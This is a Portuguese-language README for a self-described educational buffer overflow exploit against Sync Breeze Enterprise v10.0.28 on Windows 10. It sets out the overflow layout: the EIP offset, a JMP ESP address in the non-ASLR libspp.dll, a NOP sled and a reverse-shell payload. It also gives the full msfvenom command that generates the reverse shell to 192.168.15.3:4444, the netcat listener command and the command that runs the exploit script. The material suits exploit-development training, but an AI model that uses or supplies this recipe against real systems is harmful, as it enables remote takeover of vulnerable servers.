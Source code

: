 # BufferOverflow SyncBreeze Enterprise v10.0.28

Exploit didático para explorar o Sync Breeze v10.0.28 rodando no Windows 10 Enterprise (x64) e ganhar reverse shell

## SyncBreeze Enterprise v10.0.28
http://www.syncbreeze.com/setups/syncbreezeent_setup_v10.0.28.exe

## Resumo:

- 780 bytes para sobrescrever o registrador EAX.
- 4 bytes para sobrescrever o registrador EIP (escrito em little endian) com um endereço de retorno JMP ESP da DLL libspp.dll do próprio software, que não possui proteção ASLR.
- 16 No-Operations para garantir a perfeita execução do payload.
- 351 bytes de payload para realizar a conexão reversa com 192.168.15.3:4444.

## Gerando o mesmo payload no MSFVENOM:
```
msfvenom -p windows/shell_reverse_tcp lhost=192.168.15.3 lport=4444 exitfunc=thread -b "\x00\x0a\x0d\x25\x26\x2b\x3d" -f c
```

## Como usar:

É necessário gerar um novo payload de acordo com o IP e porta que deseja receber a conexão reversa.

Após substituir no script prepare para receber a conexão.
```
nc -vnlp 4444
```

Execute o exploit:
```
python2 exploit.py
```
